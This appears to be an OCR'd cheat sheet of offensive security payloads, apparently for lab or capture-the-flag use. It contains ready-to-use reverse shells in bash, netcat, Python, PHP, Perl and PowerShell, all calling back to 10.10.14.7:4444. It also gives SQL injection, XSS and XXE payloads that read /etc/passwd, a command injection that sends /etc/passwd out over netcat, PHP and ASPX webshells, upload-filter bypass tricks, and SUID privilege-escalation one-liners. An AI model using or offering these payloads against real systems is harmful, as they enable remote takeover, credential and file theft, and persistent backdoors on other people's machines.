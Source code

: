 # Reverse Shell Payloads

### Bash (classic)

`bash -i >& /dev/tcp/10.10.14.7/4444 0>&1`

### Netcat (with `-e` support)

`nc -e /bin/sh 10.10.14.7 4444`

### Netcat (no `-e`, using mkfifo)

`rm /tmp/f; mkfifo /tmp/f cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.7 4444 >/tmp/f`

### Python

`python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.7",4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/bash")'`

### PHP (one-liner webshell)

`<?php system($_GET['cmd']); ?>`

### PHP Reverse Shell

`<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.7/4444 0>&1'"); ?>`

### Perl

`perl -e 'use Socket;$i="10.10.14.7";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'`

### PowerShell (Windows)

`powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.7',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback + 'PS ' + (pwd).Path + '> ';$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}"`

* * *

# Injection Payloads

### SQLi (authentication bypass)

`' OR 1=1-- ' OR '1'='1' -- admin'--`

### SQLi (union select test)

`' UNION SELECT null,null,null--`

### XSS

`<script>alert(1)</script> <img src=x onerror=alert(1)> "><svg/onload=alert(1337)>`

### XXE (basic external entity)

`<?xml version="1.0"?> <!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]> <root><data>&xxe;</data></root>`

### Command Injection

`; id && cat /etc/passwd | nc 10.10.14.7 4444 -e /bin/sh`

* * *

# File Upload Tricks

### PHP webshell disguised

Save as `.php5`, `.phtml`, `.htaccess`, or `.htb` depending on extension filters:

`<?php echo shell_exec($_GET['cmd']); ?>`

### Polyglot image+PHP

`GIF89a; <?php system($_GET['cmd']); ?>`

* * *

# PrivEsc Payloads

### SUID binary escalation

If you find `find` with SUID:

`find . -exec /bin/sh -p \; -quit`

### `vim` with SUID

`vim -c ':!/bin/sh'`

### `tar` with SUID

`tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh`

### Python with capabilities

`python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'`

* * *

# Webshell Variants

### One-liner PHP

`<?php echo system($_REQUEST['cmd']); ?>`

### Obfuscated PHP

`<?php $c=$_GET['c']; system($c); ?>`

### ASPX Webshell (Windows IIS)

`<%@ Page Language="C#" %> <% Response.Write(System.Diagnostics.Process.Start("cmd.exe","/c " + Request["cmd"])); %>`
